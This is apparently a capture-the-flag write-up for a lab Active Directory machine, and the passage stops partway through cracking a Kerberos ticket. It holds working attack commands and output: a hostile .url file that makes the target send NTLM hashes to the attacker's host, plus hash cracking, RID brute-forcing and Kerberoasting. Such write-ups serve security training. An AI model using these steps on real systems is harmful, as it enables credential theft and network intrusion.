






# Breach.vl - Complete Write-up

**Date:** 17 July 2026  
**Machine Rank:** #959  
**Difficulty:** Medium  
**OS:** Windows Server 2022  
**Domain:** breach.vl  
**IP Address:** 10.129.117.165  

---


## Executive Summary

Breach is a medium-difficulty Windows Active Directory machine that demonstrates several real-world attack vectors commonly found in enterprise environments. The attack chain progresses through the following phases:

- **SMB Enumeration** → **NTLM Hash Capture** — The machine exposes an SMB share with write access, allowing us to upload a malicious `.url` file that triggers NTLM authentication when Windows tries to load its icon. Responder captures the NTLMv2 hash of `Julia.Wong`.

- **Hash Cracking** → **Initial Access** — The captured NTLMv2 hash is cracked using Hashcat to reveal the password `Computer1`. This provides valid domain credentials for `Julia.Wong`.

- **BloodHound Enumeration** → **Kerberoasting** — Using Julia's credentials, BloodHound maps the Active Directory and identifies `svc_mssql` as a Kerberoastable user (has an SPN set). A TGS ticket is requested using `GetUserSPNs.py` and cracked with Hashcat to reveal the password `Trustno1`.

- **Silver Ticket Attack** → **SQL Server Access** — With the NTLM hash of `svc_mssql`, a Silver Ticket is created using `ticketer.py` to impersonate the Administrator and access the SQL Server instance via `mssqlclient.py`.

- **Command Execution** → **Reverse Shell** — `xp_cmdshell` is enabled in SQL Server, allowing OS command execution. A reverse shell is obtained as `svc_mssql`.

- **Privilege Escalation** → **SYSTEM** — The `svc_mssql` account has `SeImpersonatePrivilege`. GodPotato is used to escalate privileges and obtain a reverse shell as `nt authority\system`.

- **Root Flag** → **Complete Compromise** — With SYSTEM access, the root flag is retrieved from the Administrator's Desktop.

---

## Machine Information

| Detail | Value |
|:--|:--|
| **Machine Name** | Breach |
| **OS** | Windows Server 2022, Build 20348 |
| **Difficulty** | Medium |
| **Domain** | `breach.vl` |
| **Domain Controller** | `BREACHDC.breach.vl` |


---

## Reconnaissance

### Initial Port Scanning

I initiate active enumeration with Nmap to perform a full TCP port scan on the target system. Due to the high number of open ports typical of Active Directory machines, I use a two-step approach: first, scanning all ports at a high rate to locate open ports, and second, running service version detection and default script scans on the identified open ports.

```bash
hyena@hyena$ nmap -sS -Pn -min-rate 5000 --max-retries 1 -T4 -p- 10.129.117.108
Starting Nmap 7.99 at 2026-07-17 06:46 +0000
Nmap scan report for 10.129.117.108
Host is up (0.38s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
49677/tcp open  unknown
50021/tcp open  unknown
Nmap done: 1 IP address (1 host up) scanned in 27.58 seconds
```

### Detailed Service Scan

```bash
hyena@hyena$ nmap -sC -sV -O -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49664,49668,49677,50021 10.129.117.108
Starting Nmap 7.99 at 2026-07-17 06:48 +0000
Nmap scan report for 10.129.117.108
Host is up (0.39s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-17 06:54:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BREACH
|   NetBIOS_Domain_Name: BREACH
|   NetBIOS_Computer_Name: BREACHDC
|   DNS_Domain_Name: breach.vl
|   DNS_Computer_Name: BREACHDC.breach.vl
|   DNS_Tree_Name: breach.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-17T06:55:09+00:00
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
| Not valid before: 2026-07-16T06:51:11
|_Not valid after:  2027-01-15T06:51:11
|_ssl-date: 2026-07-17T06:55:47+00:00; +5m37s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
50021/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-07-17T06:55:09
|_  start_date: N/A
|_clock-skew: mean: 5m37s, deviation: 0s, median: 5m37s
```

### Service Analysis

From the scan results, several key services confirm this is a Windows Active Directory Domain Controller:

| Port | Service | Significance |
|------|---------|--------------|
| 53 | DNS | Domain Name Service for domain resolution |
| 88 | Kerberos | Primary authentication protocol for AD |
| 389/636 | LDAP/LDAPS | Directory access for querying AD objects |
| 445 | SMB | File sharing and remote administration |
| 464 | kpasswd5 | Kerberos password change service |
| 3268/3269 | Global Catalog | Domain-wide directory searches |
| 3389 | RDP | Remote Desktop access |
| 5985 | WinRM | Windows Remote Management (PowerShell remoting) |

The service information reveals:

- **Domain**: `breach.vl`
- **Hostname**: `BREACHDC.breach.vl`
- **OS**: Windows Server 2022 (Build 20348)
- **SMB Signing**: Enabled and required (mitigates NTLM relay attacks)

### DNS Configuration

I add the domain to `/etc/hosts` for proper name resolution during enumeration:

```bash
hyena@hyena$ echo "10.129.117.165 breach.vl BREACHDC.breach.vl BREACHDC" | sudo tee -a /etc/hosts
```

This ensures that DNS lookups for the domain resolve to the target IP, enabling proper Kerberos authentication and service enumeration.

---

## SMB Share Enumeration

### Guest Access Discovery

During enumeration, I discover that the SMB service allows guest/null session access:

```bash
hyena@hyena$ nxc smb 10.129.117.165 -u 'guest' -p '' --shares
```



```
SMB         10.129.117.165  445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.117.165  445    BREACHDC         [+] breach.vl\guest: 
SMB         10.129.117.165  445    BREACHDC         [*] Enumerated shares
SMB         10.129.117.165  445    BREACHDC         Share           Permissions    Remark
SMB         10.129.117.165  445    BREACHDC         -----           -----------    ------
SMB         10.129.117.165  445    BREACHDC         ADMIN$                         Remote Admin
SMB         10.129.117.165  445    BREACHDC         C$                             Default share
SMB         10.129.117.165  445    BREACHDC         IPC$            READ           Remote IPC
SMB         10.129.117.165  445    BREACHDC         NETLOGON                       Logon server share
SMB         10.129.117.165  445    BREACHDC         share           READ,WRITE     [ ]
SMB         10.129.117.165  445    BREACHDC         SYSVOL                         Logon server share
SMB         10.129.117.165  445    BREACHDC         Users           READ
```

### Critical Finding: "share" - WRITE Access!

The `share` share has **READ, WRITE** permissions for guest users. This is a major finding because we can upload files to the share.

### Exploring the Transfer Folder

```bash
hyena@hyena$ smbclient //10.129.117.165/Share -N
Password for [WORKGROUP\hyena]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep  8 11:13:00 2025
  ..                                DHS        0  Tue Sep  9 10:35:32 2025
  finance                             D        0  Thu Feb 17 11:19:34 2022
  software                            D        0  Thu Feb 17 11:19:12 2022
  transfer                            D        0  Mon Sep  8 10:13:44 2025

smb: \> cd transfer
smb: \transfer\> ls
  .                                   D        0  Mon Sep  8 10:13:44 2025
  ..                                  D        0  Mon Sep  8 11:13:00 2025
  claire.pope                         D        0  Thu Feb 17 11:21:35 2022
  diana.pope                          D        0  Thu Feb 17 11:21:19 2022
  julia.wong                          D        0  Thu Apr 17 00:38:12 2025
```

**Significance:** The `transfer` folder contains user directories for `claire.pope`, `diana.pope`, and `julia.wong`. These are valid domain usernames that can be used for password spraying and authentication attempts.

---

## NTLM Hash Capture with Responder

### Understanding the Attack

We have **write access** to the SMB share. Windows automatically loads icons from `.url` files. If we create a `.url` file with an icon path pointing to our machine, Windows will try to authenticate to our SMB server, sending its NTLM hash.

### Creating the Malicious .url File

```bash
hyena@hyena$ cat > exploit.url << 'EOF'
[InternetShortcut]
URL=asdasdas
WorkingDirectory=hehe
IconFile=\\10.10.14.14\aasd\nc.ico
IconIndex=1
EOF
```

**File Breakdown:**
- `[InternetShortcut]` — Section header for Windows shortcut files
- `URL=asdasdas` — Dummy URL (doesn't matter)
- `WorkingDirectory=hehe` — Dummy directory (doesn't matter)
- `IconFile=\\10.10.14.14\aasd\nc.ico` — **CRITICAL**: Points to our Kali machine
- `IconIndex=1` — Icon index (doesn't matter)

### Starting Responder

```bash
hyena@hyena$ sudo responder -I tun0 -v -w -F
```

### Uploading the File

```bash
hyena@hyena$ smbclient //10.129.117.165/Share -N -c "cd transfer; put exploit.url"
```

### Capturing the NTLM Hash



Responder captures the hash:

```
[SMB] NTLMv2-SSP Client   : 10.129.117.165
[SMB] NTLMv2-SSP Username : BREACH\Julia.Wong
[SMB] NTLMv2-SSP Hash     : Julia.Wong::BREACH:1bab61d9b8f55982:CB2240E347AA477643D57D13CF500AA0:010100000000000000428CDB0616DD0172A44E80ECAED7C9000000000200080043004D0048004A0001001E00570049004E002D0051003200450031004F0054004E004400540051004A0004003400570049004E002D0051003200450031004F0054004E004400540051004A002E0043004D0048004A002E004C004F00430041004C000300140043004D0048004A002E004C004F00430041004C000500140043004D0048004A002E004C004F00430041004C000700080000428CDB0616DD01060004000200000008003000300000000000000001000000002000007AF3BF9E787024178234523B571450B1496B358FC33803E245511F9030DD1AFC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310034000000000000000000
```

---

## Hash Cracking with Hashcat

### Saving the Hash

```bash
hyena@hyena$ echo 'Julia.Wong::BREACH:1bab61d9b8f55982:CB2240E347AA477643D57D13CF500AA0:010100000000000000428CDB0616DD0172A44E80ECAED7C9000000000200080043004D0048004A0001001E00570049004E002D0051003200450031004F0054004E004400540051004A0004003400570049004E002D0051003200450031004F0054004E004400540051004A002E0043004D0048004A002E004C004F00430041004C000300140043004D0048004A002E004C004F00430041004C000500140043004D0048004A002E004C004F00430041004C000700080000428CDB0616DD01060004000200000008003000300000000000000001000000002000007AF3BF9E787024178234523B571450B1496B358FC33803E245511F9030DD1AFC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310034000000000000000000' > hash.txt
```

### Cracking with Hashcat

```bash
hyena@hyena$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --force
```

**Hashcat Mode 5600:** NetNTLMv2 (SMB authentication hash)

```
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: Julia.Wong::BREACH:1bab61d9b8f55982:CB2240E347AA477643D57D13CF500AA0:...
Recovered........: 1/1 (100.00%) Digests (total)
```

### The Cracked Password

```bash
hyena@hyena$ cat cracked.txt
Julia.Wong::BREACH:1bab61d9b8f55982:cb2240e347aa477643d57d13cf500aa0:010100000000000000428cdb0616dd0172a44e80ecaed7c9000000000200080043004d0048004a0001001e00570049004e002d0051003200450031004f0054004e004400540051004a0004003400570049004e002d0051003200450031004f0054004e004400540051004a002e0043004d0048004a002e004c004f00430041004c000300140043004d0048004a002e004c004f00430041004c000500140043004d0048004a002e004c004f00430041004c000700080000428cdb0616dd01060004000200000008003000300000000000000001000000002000007af3bf9e787024178234523b571450b1496b358fc33803e245511f9030dd1afc0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310034000000000000000000:Computer1
```

**Password:** `Computer1`

---

## Initial Access as Julia.Wong

### Testing the Credentials

```bash
hyena@hyena$ nxc smb 10.129.117.165 -u 'julia.wong' -p 'Computer1'
SMB         10.129.117.165  445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.117.165  445    BREACHDC         [+] breach.vl\julia.wong:Computer1
```

### Retrieving the User Flag

```bash
hyena@hyena$ smbclient //10.129.117.165/Share -U 'julia.wong%Computer1' -c "cd transfer/julia.wong; get user.txt"
getting file \transfer\julia.wong\user.txt of size 32 as user.txt
```

```bash
hyena@hyena$ cat user.txt
55d33e52bc5fa7a687b9f0dcfa103dda
```

**User Flag:** `55d33e52bc5fa7a687b9f0dcfa103dda`

---

## RID Brute Force for User Enumeration

### What is RID Brute-Force?

In Windows Active Directory, every security principal has a unique Security Identifier (SID). The last portion is the Relative Identifier (RID), which uniquely identifies the object. By iterating through RIDs (500, 501, 1000, etc.), we can enumerate all domain users and groups.

```bash
hyena@hyena$ nxc smb 10.129.117.165 -u 'julia.wong' -p 'Computer1' --rid-brute
```

```
SMB         10.129.117.165  445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.117.165  445    BREACHDC         [+] breach.vl\julia.wong:Computer1 
SMB         10.129.117.165  445    BREACHDC         498: BREACH\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         500: BREACH\Administrator (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         501: BREACH\Guest (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         502: BREACH\krbtgt (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         512: BREACH\Domain Admins (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         513: BREACH\Domain Users (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         514: BREACH\Domain Guests (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         515: BREACH\Domain Computers (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         516: BREACH\Domain Controllers (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         517: BREACH\Cert Publishers (SidTypeAlias)
SMB         10.129.117.165  445    BREACHDC         518: BREACH\Schema Admins (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         519: BREACH\Enterprise Admins (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         520: BREACH\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         521: BREACH\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         522: BREACH\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         525: BREACH\Protected Users (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         526: BREACH\Key Admins (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         527: BREACH\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         553: BREACH\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.117.165  445    BREACHDC         571: BREACH\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.117.165  445    BREACHDC         572: BREACH\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.117.165  445    BREACHDC         1000: BREACH\BREACHDC$ (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1101: BREACH\DnsAdmins (SidTypeAlias)
SMB         10.129.117.165  445    BREACHDC         1102: BREACH\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         1103: BREACH\SQLServer2005SQLBrowserUser$BREACHDC (SidTypeAlias)
SMB         10.129.117.165  445    BREACHDC         1104: BREACH\staff (SidTypeGroup)
SMB         10.129.117.165  445    BREACHDC         1105: BREACH\Claire.Pope (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1106: BREACH\Julia.Wong (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1107: BREACH\Hilary.Reed (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1108: BREACH\Diana.Pope (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1109: BREACH\Jasmine.Price (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1110: BREACH\George.Williams (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1111: BREACH\Lawrence.Kaur (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1112: BREACH\Jasmine.Slater (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1113: BREACH\Hugh.Watts (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1114: BREACH\Christine.Bruce (SidTypeUser)
SMB         10.129.117.165  445    BREACHDC         1115: BREACH\svc_mssql (SidTypeUser)
```

### Key Users Discovered

| RID | Username | Significance |
|-----|----------|--------------|
| 500 | Administrator | Domain Admin |
| 1105 | Claire.Pope | Domain User |
| 1106 | Julia.Wong | Domain User (we have her password) |
| 1107 | Hilary.Reed | Domain User |
| 1108 | Diana.Pope | Domain User |
| 1115 | svc_mssql | Service Account |

**Critical Finding:** `svc_mssql` is a service account. Service accounts often have weak passwords and high privileges.

---

## BloodHound Enumeration

### What is BloodHound?

BloodHound is a powerful tool for visualizing and analyzing Active Directory attack paths. It uses graph theory to identify relationships between objects and highlight potential privilege escalation vectors. The tool collects data about users, groups, computers, and their relationships, then displays this information in a visual graph.

### Collecting BloodHound Data

```bash
hyena@hyena$ bloodhound-python -d breach.vl -u 'julia.wong' -p 'Computer1' -dc 'BREACHDC.breach.vl' -c all -ns 10.129.117.165 --dns-tcp
```

```
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: breach.vl
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: BREACHDC.breach.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: BREACHDC.breach.vl
INFO: Found 15 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: BREACHDC.breach.vl
INFO: Done in 01M 40S
```

### BloodHound Findings

Once the ZIP file is uploaded to BloodHound UI, the analysis reveals:

| Finding | Significance |
|---------|--------------|
| `svc_mssql` has SPN set | Kerberoastable |
| `svc_mssql` is in high-privileged groups | Potential for escalation |

**Attack Path Discovered:**
```
Julia.Wong (owned)
    ↓ Can Kerberoast
svc_mssql (service account)
    ↓ Password: Trustno1
Silver Ticket → Impersonate Administrator
    ↓ Connect to SQL Server
Enable xp_cmdshell → Get Shell
    ↓ SeImpersonatePrivilege
SYSTEM
```

---

## Kerberoasting svc_mssql

### What is Kerberoasting?

Kerberoasting is an attack that targets service accounts in Active Directory. Service accounts have Service Principal Names (SPNs) that are used for Kerberos authentication. Attackers can request a TGS (Ticket Granting Service) ticket for a service account and crack it offline to recover the account's password.

### Getting the Kerberos TGS Ticket

```bash
hyena@hyena$ GetUserSPNs.py 'breach.vl/julia.wong:Computer1' -request
```



```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName                    Name        MemberOf    PasswordLastSet          LastLogon             Delegation
--------------------------------------  ----------  ----------  -----------------------  -------------------- ----------
MSSQLSvc/breachdc.breach.vl:1433        svc_mssql               2022-02-17 05:43:08.106169 2024-10-03 03:42:21.762217

[-] CCache file is not found. Skipping...

$krb5tgs$23$*svc_mssql$BREACH.VL$breach.vl/svc_mssql*$44993fd3c78c5bd5763aabf19eddc704$35d7fd3acea7037ec18fe14e0f0ba4ad2bcb054ab04c8081db5d78af659abe921451452a976ab3e318e2a9e3c7dcb1c5a382ccbed709a7ed959c848431def116fbe48ac95508397a01937ba8f437ddca7509e60446c159bc1fb949bcc072d3d1a1869a1fdbe095c14cab0ddecf7512f8c3e088e063872bb1d14317dd2aaf341ced8d45544d486641a44dfa8e55c4c6d36a96082721d4677dd6ffdc572d48411c104597976fe18461e4473f98aee742a549158d2050521823887d1f3217e91121626fae3ce4a5f030f0c0fb45b3fb6fc5afb77a496fe8527173928d3a3a167d692bb81c7ad37d12bd2f5e904b4c145bcf718810490fc2b28321ff46f8d9e38e3d974a00988457292cff27a5a7b5efc052aab436da84a561e592024daa46a081315bdc589124202757bfe3c88f97cce27564222730afe5e5eb380bd3974d16e189234ad4604446b0ced250a965b73c8c5c292608845b77b966eb5df81de1a430043d530f3b1fa45537948b6c872d5fe7f6c07cc7d98d81018aad1acb94b98f31f537a6d614bec19eca94b95a44bfee40bfd07a9e0cf5dd3e1248f9aacecb3ad7801339ae2203f376a8f80c926a9643ae8c7817b720e7ce04326421b3225b61f6532a716d39e10231c4c34600439b19dbe5a2f1c2cab199fcf595b5abecbc1ce2e9bbf1970782e352b7096b9468a8ab5378609030195e5c54bed8daee8352dd292877fc58f97ebb0584383928a6b0f17a4c65fd699ff1d141c8d83685c70e5f77a03f5ee397f0ccbd419da06585786839e6407a75e7e16cd9b0140fc1f5ba2a66f21c40bf31819c21609b981aecdfa09a63142a9f905a3d3b3236d398900b9af773029063e528ddc536c2c06064919291e1ae46c4c6de33aa68ad1ef0a1ccf7bd698afd01c2f2f4dcfd7cdd0b2ae5d1ec8ab9c6bceeb671a269ec3f277b170c9517ae99ffe7166c269287b0f7fe3344688374498c9f4c281f270a8e02f1110d4dfd74765a654a5ef0a7d4a50b1e9080a71dd1da14a04831b06d0a25404fb5911712e2627831a056e898c4abae7d219e05e742767c611777fa989a7473fc54eb33985e344266f1804c363fc868bd5fb6a920408b5414216132c9f6d60ef11fd88b4d99bd274320d7364e9b6a96164e2cabfebace04f5c5e95f77f9e81ac692b6fb8b81e8ffeca01c2ba9069996d7406e11d03a0983ef8997863450ceae791d7748901635550a0da781b82ccbf2b4a0e27efa940cdcf97615138f1e35f7e6b41320252deb1f3f54ba0a0f7d0156d4f994f610ee635fd5cbb05f0b207538ae52963eded0a38be9d470d00cdd020a635ac594f218bcc87e6f546e981f910e43636f0b7aa35698d193d470c666d95149dc15af259f100b1d43d0203d1fb6e07df56b603e61074decda85c47d26053ec5ca6359efa9f714c610a8d3d7ce8fb8d8dca20d254b5efac58fd420ab8e4007e42e5d7986658cc13b
```

### Saving and Cracking the Ticket

```bash
hyena@hyena$ echo '$krb5tgs$23$*svc_mssql$BREACH.VL$breach.vl/svc_mssql*$44993fd3c78c5bd5763aabf19eddc704$35d7fd3acea7037ec18fe14e0f0ba4ad2bcb054ab04c8081db5d78af659abe921451452a976ab3e318e2a9e3c7dcb1c5a382ccbed709a7ed959c848431def116fbe48ac95508397a01937ba8f437ddca7509e60446c159bc1fb949bcc072d3d1a1869a1fdbe095c14cab0ddecf7512f8c3e088e063872bb1d14317dd2aaf341ced8d45544d486641a44dfa8e55c4c6d36a96082721d4677dd6ffdc572d48411c104597976fe18461e4473f98aee742a549158d2050521823887d1f3217e91121626fae3ce4a5f030f0c0fb45b3fb6fc5afb77a496fe8527173928d3a3a167d692bb81c7ad37d12bd2f5e904b4c145bcf718810490fc2b28321ff46f8d9e38e3d974a00988457292cff27a5a7b5efc052aab436da84a561e592024daa46a081315bdc589124202757bfe3c88f97cce27564222730afe5e5eb380bd3974d16e189234ad4604446b0ced250a965b73c8c5c292608845b77b966eb5df81de1a430043d530f3b1fa45537948b6c872d5fe7f6c07cc7d98d81018aad1acb94b98f31f537a6d614bec19eca94b95a44bfee40bfd07a9e0cf5dd3e1248f9aacecb3ad7801339ae2203f376a8f80c926a9643ae8c7817b720e7ce04326421b3225b61f6532a716d39e10231c4c34600439b19db